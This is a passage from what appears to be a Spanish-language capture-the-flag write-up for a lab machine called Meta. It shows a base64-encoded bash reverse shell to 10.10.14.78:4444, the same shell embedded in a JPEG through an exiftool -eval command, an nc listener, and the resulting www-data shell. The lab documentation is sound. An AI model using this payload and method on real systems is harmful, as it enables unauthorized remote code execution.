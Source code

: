  <p align="center">
  <img src="/assets/images/meta/03-page3.png">       
  </p>

## EXPLOIT

Para esta ocasión vamos a hacer uso de la herramienta [JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE) del github de `OneSecCyber`

Ingresamos a nuestra carpeta `exploit` y procedemos a descargar la herramienta.

```bash
❯ cd ../exploit/
https://github.com/OneSecCyber/JPEG_RCE
git clone https://github.com/OneSecCyber/JPEG_RCE.git
cd JPEG_RCE

```

A continuación, codificaremos una reverse shell de bash en base64, esto para que pueda ser interpretado el comando al momento de subir el archivo a la maquina víctima.

```bash
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.78/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDQ0IDA+JjEnCg==
```
Luego de obtener la codificación, ejecutamos el siguiente comando sugerido en la documentación de la herramienta que descargamos anteriormente.

```bash
❯ exiftool -config eval.config runme.jpg -eval='system("echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDQ0IDA+JjEnCg==' | base64 -d | bash")'
    1 image files updated
```

¡Muy bien! Precedemos a subir la imagen `runme.jpg` a la página víctima, sin embargo, antes de darle clic al botón para finalizar el proceso, debemos hacer un último paso, es necesario ponernos en escucha con la utilidad `nc` con el puerto que se indica al momento de realizar la reverse shell.

```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
```

Ahora sí, es momento de subir la imagen y dar clic en el botón para terminar el proceso en la página web y cómo podemos ver, ¡acto seguido obtenemos una shell de la maquina victima!


```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.11.140] 56278
bash: cannot set terminal process group (639): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami
whoami
www-data
```
